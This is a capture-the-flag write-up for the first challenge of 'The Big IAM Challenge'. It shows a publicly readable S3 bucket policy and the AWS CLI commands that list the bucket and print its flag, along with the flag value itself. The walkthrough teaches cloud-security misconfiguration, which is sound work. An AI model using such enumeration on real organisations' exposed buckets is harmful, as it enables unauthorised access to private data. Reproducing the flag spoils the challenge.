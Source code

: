 ```yaml
---

# THE BIG IAM CHALLEGE 
- https://bigiamchallenge.com/challenge/1
---
```


## [Challenge 1 - Buckets of Fun](https://bigiamchallenge.com/challenge/1)
### We all know that public buckets are risky. But can you find the flag?

<img width="1396" alt="Screenshot 2025-04-10 at 1 09 16 AM" src="https://github.com/user-attachments/assets/eb889558-9f4c-4077-81bb-f0bd68a817d3" />

#### IAM POLICY
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:GetObject",
            "Resource": "arn:aws:s3:::thebigiamchallenge-storage-9979f4b/*"
        },
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:ListBucket",
            "Resource": "arn:aws:s3:::thebigiamchallenge-storage-9979f4b",
            "Condition": {
                "StringLike": {
                    "s3:prefix": "files/*"
                }
            }
        }
    ]
}
```


## Solution

```bash
> aws s3 ls s3://thebigiamchallenge-storage-9979f4b
                           PRE files/
> aws s3 ls s3://thebigiamchallenge-storage-9979f4b --recursive
2023-06-05 19:13:53         37 files/flag1.txt
2023-06-08 19:18:24      81889 files/logo.png
> aws s3 cp s3://thebigiamchallenge-storage-9979f4b/files/flag1.txt -
{wiz:exposed-storage-risky-as-usual}
> 
 ```

---